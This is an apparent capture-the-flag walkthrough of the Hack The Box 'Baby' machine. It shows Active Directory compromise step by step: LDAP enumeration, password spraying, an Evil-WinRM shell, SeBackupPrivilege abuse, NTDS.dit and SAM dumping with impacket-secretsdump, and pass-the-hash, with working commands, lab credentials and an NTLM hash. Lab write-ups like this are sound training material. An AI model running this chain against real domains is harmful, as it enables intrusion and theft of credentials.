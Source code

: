 ![](images/image0.png)

# Baby HacktTheBox Walkthrough

This document provides a structured, professional walkthrough of the exploitation process, 
including enumeration, credential discovery, privilege escalation, and domain compromise. 
All commands are provided in code blocks, and screenshots are preserved for clarity.

---

## 1. Initial Enumeration

We begin with a full port scan followed by targeted service enumeration and vulnerability detection:

```bash
nmap -p- -Pn 10.129.224.8 -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && nmap -Pn 10.129.224.8 -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && nmap -T5 -Pn 10.129.224.8 -v --script vuln -oN nmap_vuln.txt
```

![](images/image2.png)

---

## 2. LDAP Enumeration

Anonymous LDAP queries revealed Active Directory accounts:

```bash
netexec ldap 10.129.224.8 -u '' -p '' --query "(sAMAccountName=*)" ""
```

![](images/image12.png)

We successfully discovered credentials:

- **Username:** `Teresa.Bell`
- **Password:** `BabyStart123!`

![](images/image7.png)

---

## 3. Password Spraying & Account Access

After conducting a password spraying attack, we identified another account with forced password reset status:

![](images/image8.png)

We updated the password using SMB tools:

```bash
smbpasswd -r 10.129.224.8 -U "Caroline.Robinson"
```

![](images/image4.png)

With valid credentials, we obtained a shell via **Evil-WinRM**:

```bash
evil-winrm -i 10.129.224.8 -u "Caroline.Robinson" -p "Pass123!"
```

![](images/image1.png)

---

## 4. Privilege Escalation

Upon privilege inspection, we discovered the `SeBackupPrivilege` assigned to our account:

![](images/image5.png)

This privilege allowed us to exploit backup-related operations to extract sensitive files.

![](images/image6.png)

---

## 5. Secrets Dumping

We dumped the **SAM** and **SYSTEM** hives for offline extraction:

```bash
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
```

![](images/image11.png)

Initial attempts at **Pass-the-Hash** with the extracted Administrator hash failed:

```bash
evil-winrm -i 10.129.224.8 -u Administrator -H 8d992faed38128ae85e95fa35868bb43
```

❌ **Unsuccessful authentication**

---

## 6. NTDS.dit Attack

Direct extraction of the `ntds.dit` file was blocked as it was in use.  
We leveraged an automated backup privilege abuse script:

[BackupPrivilege-Script](https://github.com/SawyersPresent/BackupPrivilege-Script/)

![](images/image10.png)

We then successfully dumped the full NTDS database:

```bash
impacket-secretsdump LOCAL -ntds NTDS -system SYSTEM
```

![](images/image3.png)

---

## 7. Domain Administrator Access

Using one of the extracted hashes, we performed **Pass-the-Hash** authentication 
and successfully obtained **Administrator-level access**:

![](images/image9.png)

At this stage, full domain compromise was achieved.  
The **root flag** was located on the Administrator’s desktop.

---

## 8. Conclusion

This assessment demonstrates a full attack chain from external enumeration 
to complete **domain compromise** by abusing backup privileges and dumping NTDS hashes.  

**Key takeaways:**

- Unpatched systems exposed via LDAP and SMB are critical entry points.  
- Weak or default credentials (e.g., `BabyStart123!`) accelerate compromise.  
- Backup privileges provide direct paths to Domain Controller secrets.  
- Preventing exploitation requires hardening Active Directory, monitoring privileged rights, and enforcing strong password policies.

---

